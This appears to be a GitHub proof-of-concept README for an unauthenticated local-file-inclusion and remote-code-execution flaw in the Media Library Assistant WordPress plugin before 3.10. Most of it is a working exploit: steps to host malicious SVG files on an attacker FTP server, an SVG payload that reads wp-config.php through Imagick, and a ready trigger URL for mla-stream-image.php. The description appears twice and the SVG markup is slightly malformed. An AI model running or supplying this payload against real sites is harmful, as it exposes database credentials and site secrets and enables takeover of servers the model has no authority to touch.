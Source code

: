 # Media-Library-Assistant
Media Library Assistant Wordpress Plugin - RCE and LFI
Description:
# Media Library Assistant Wordpress Plugin in version < 3.10 is affected by an unauthenticated remote reference to Imagick() conversion which allows attacker to perform LFI and RCE depending on the Imagick configuration on the remote server. The affected page is: wp-content/plugins/media-library-assistant/includes/mla-stream-image.php

Description:
# Media Library Assistant Wordpress Plugin in version < 3.10 is affected by an unauthenticated remote reference to Imagick() conversion which allows attacker to perform LFI and RCE depending on the Imagick configuration on the remote server. The affected page is: wp-content/plugins/media-library-assistant/includes/mla-stream-image.php


#LFI

Steps to trigger conversion of a remote SVG

Create a remote FTP server at ftp://X.X.X.X:21 (http will not work, see references)

Host 2 files :
- malicious.svg
- malicious.svg[1]


Payload:
For LFI, getting wp-config.php:

Both malicious.svg and malicious.svg[1] on the remote FTP:

<svg width="500" height="500"
xmlns:xlink="http://www.w3.org/1999/xlink">
xmlns="http://www.w3.org/2000/svg">
<image xlink:href= "text:../../../../wp-config.php" width="500" height="500" />
</svg>

Then trigger conversion with:
http://127.0.0.1/wp-content/plugins/media-library-assistant/includes/mla-stream-image.php?mla_stream_file=ftp://X.X.X.X:21/malicious.svg&mla_debug=log&mla_stream_frame=1



